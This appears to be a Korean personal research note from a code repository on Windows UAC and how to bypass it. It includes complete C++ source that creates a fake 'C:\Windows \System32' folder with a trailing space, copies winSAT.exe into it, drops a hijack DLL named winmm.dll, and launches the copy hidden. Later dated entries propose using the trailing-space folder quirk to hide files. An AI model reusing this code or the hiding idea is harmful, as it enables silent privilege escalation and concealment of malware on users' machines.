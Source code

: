 # UAC Bypass

User Account Control

Windows Vista에서 처음 선보인 보안 기술이다. 관리자가 권한 수준을 높이는 것을 허용할 때 까지 응용프로그램들은 표준 사용자 권한으로 실행된다.

매니페스트파일에서 requestedPrivileges를 requireAdministrator로 설정하면 실행 시 사용자 권한을 요청?묻는? 창이 뜬다.

```XML
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
  <v3:trustInfo xmlns:v3="urn:schemas-microsoft-com:asm.v3">
    <v3:security>
      <v3:requestedPrivileges>
        <v3:requestedExecutionLevel level="highestAvailable" />
      </v3:requestedPrivileges>
    </v3:security>
  </v3:trustInfo>
</assembly>
```

코드는 이와 같다.

하지만 특정 방법을 사용하면 사용자에게 들키지 않고 몰래 권한 상승이 가능하다.

UAC Bypass라는 이름을 가진 기술이다.

UAC Bypass를 사용한 대표적인 악성코드는 WannaCry가 있다.

또한 윈도우즈 시스템 프로세스는 자체적으로 보안 인증을 통해 UAC Bypass를 지원하고 있으며 이 프로세스에 취약점이 발견될 경우 이를 통해 악성코드가 더 크리티컬한 공격을 감행할 수 있을 것이다.

### UAC Bypass Source

```C++
#include "stdafx.h"
#include <Windows.h>
#include "resource.h"

void DropResource(const wchar_t* rsrcName, const wchar_t* filePath) {
	HMODULE hMod = GetModuleHandle(NULL);
	HRSRC res = FindResource(hMod, MAKEINTRESOURCE(IDR_DATA1), rsrcName);
	DWORD dllSize = SizeofResource(hMod, res);
	void* dllBuff = LoadResource(hMod, res);
	HANDLE hDll = CreateFile(filePath, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, 0, NULL);
	DWORD sizeOut;
	WriteFile(hDll, dllBuff, dllSize, &sizeOut, NULL);
	CloseHandle(hDll);
}

int main()
{
	_SHELLEXECUTEINFOW se = {};
	//Create Mock SystemRoot Directory
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\", 0);
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\System32", 0);
	CopyFileW(L"C:\\Windows\\System32\\winSAT.exe", L"\\\\?\\C:\\Windows \\System32\\winSAT.exe", false);

	//Drop our dll for hijack
	DropResource(L"DATA", L"\\\\?\\C:\\Windows \\System32\\winmm.dll");

	//Execute our winSAT.exe copy from fake trusted directory
	se.cbSize = sizeof(_SHELLEXECUTEINFOW);
	se.lpFile =  L"C:\\Windows \\System32\\winSAT.exe";
	se.lpParameters = L"formal";
	se.nShow = SW_HIDE;
	se.hwnd = NULL;
	se.lpDirectory = NULL;
	ShellExecuteEx(&se);

    	return 0;
}
```

### 190223 추가

컴파일 시 매니페스트에 Ui Access = true로 설정하기 위해서는 전자서명이 필요하며 System32폴더와 같은 신뢰할 수 있는 장소에 있어야 한다.

_출처 : https://social.msdn.microsoft.com/Forums/windowsdesktop/en-US/350ceab8-436b-4ef1-8512-3fee4b470c0a/problem-with-manifest-and-uiaccess-set-to-true?forum=windowsgeneraldevelopmentissues_

WinSAT.exe에는 Ui Access = False로 설정되어있다.

어디서 본건데 신뢰할 수 있는 장소에서는 flag가 무시된다고 하는데 어떤놈은 UI경고창이 뜨고 어떤놈은 안뜬다. 일단 두 케이스에 대한 차이점 조사 예정.

### 190224 추가

이상한점 발견

C:\Windows \ 하위에 폴더 만들어도 잠깐 생겼다가 사라진다. 하지만 삭제된건 아니고 뿅 하고 없어진다.

근데 주소를 직접 치면 접근은 가능하다. 이거 이용해서 파일 본체를 숨길 수 있지 않을까 싶다.

C:\Windows \system32를 접근하면 스페이스를 없애서 C:\Windows\system32로 이동된다.

C:\Windows \system32 는 안만들어진다.

C:\Windows \에서는 C:\Windows \system32를 주소창을 통해 접근이 가능하지만 다른 장소에서는 접근이 안된다.

추측하면 주소창에 입력한 주소가 하위폴더면 바로 이동하는 것 같고 이외는 일단 후킹해서 공백 제거후 폴더 이동하는 것으로 추정된다.

ProcessExplorer로 주소찍어보면 Path에 공백이 사라진것을 볼 수 있다.

![123](https://user-images.githubusercontent.com/41255291/53297290-b61e5300-385f-11e9-8a0b-0f7e03b31275.png)
